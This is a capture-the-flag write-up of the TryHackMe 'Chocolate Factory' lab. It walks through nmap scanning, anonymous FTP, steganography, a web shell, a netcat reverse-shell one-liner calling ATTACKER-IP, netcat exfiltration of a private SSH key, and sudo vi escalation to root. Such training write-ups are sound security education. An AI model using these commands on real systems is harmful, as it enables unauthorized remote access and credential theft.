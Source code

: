 # Chocolate Factory

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/e2eed78e92b4890174e0a2510b6e7a7c.jpeg)

## Difficulty = Easy

***


Running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Tue Oct 24 20:57:20 2023 as: nmap -p- -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.122.96
Increasing send delay for 10.10.122.96 from 0 to 5 due to 181 out of 451 dropped probes since last increase.
Warning: 10.10.122.96 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.122.96
Host is up (0.14s latency).
Not shown: 61913 closed tcp ports (conn-refused), 3593 filtered tcp ports (no-response)
Bug in dicom-ping: no string output.
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
101/tcp open  hostname?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"

--SNIP--
```

Logging in to `FTP` as anonymous, we have a `gum_room.jpg` file, which we can download using the `mget` command

![](https://i.imgur.com/9eF1nYO.png)

Running `stegseek` on the image we found a file with a **base64** encoded text

![](https://i.imgur.com/9jDBkZn.png)


Decoding with **cyberchef** we have user **charlie** hash in `SHA-512 Crypt` format

![](https://i.imgur.com/wxKF5DU.png)

Tried cracking this hash but to no avail, so i decided to check port `80/HTTP`

![](https://i.imgur.com/vhDhAzC.png)

Tried login in, also to no avail, Running dir/file bruteforce with `dirsearch` we have few entries


![](https://i.imgur.com/duGfFzg.png)

checking `/home.php` we have a web shell 😂

![](https://i.imgur.com/5drmyPp.png)

We can go ahead and start up our listener in `netcat` and get a reverse shell with the below payload

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP 4444 >/tmp/f
```


![](https://i.imgur.com/5j8PRUp.png)

checking `/var/www/html`, looks like we found the key **tryhackme** talked about

![](https://i.imgur.com/fgyUeas.png)

Concatenating `validate.php` in this same directory we have user **charlie's** password

![](https://i.imgur.com/AKRdHHQ.png)

This password doesn't seem to work for user **charlie** when switching but it works on the website and refer us back to that command injection page

![](https://i.imgur.com/7iTTOaA.png)

Navigating to user **charlie** home directory, i found a teleport file that contains an `SSH` id_rsa 

![](https://i.imgur.com/UuscklX.png)

we can go ahead and send it to our attacker machine using `netcat`

```bash
# on target machine
$ cat teleport | nc -lp 1234

# on attacker machine
$ nc 10.10.224.194 1234 > teleport
```


![](https://i.imgur.com/JZAR9mB.png)


> **Note :** wait for few seconds, maybe 30 for the file to transfer cos' you won't see a prompt that it has been transferred then hit `Ctrl+C` on attacker machine to break connection


We logged in as user **charlie** via `SSH` using the private key


![](https://i.imgur.com/6dsjHxj.png)


Running `sudo -l` we can run `/usr/bin/vi` with sudo privileges without a password

![](https://i.imgur.com/kZd26Rb.png)

run `sudo /usr/bin/vi` and you should get a vi prompt

![](https://i.imgur.com/l1iuF00.png)


Then just type in`:shell` to spawn a shell with vi

![](https://i.imgur.com/zpUSLlN.png)

Click enter and you should be user **root**


![](https://i.imgur.com/73SzmFz.png)

GG 😎


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
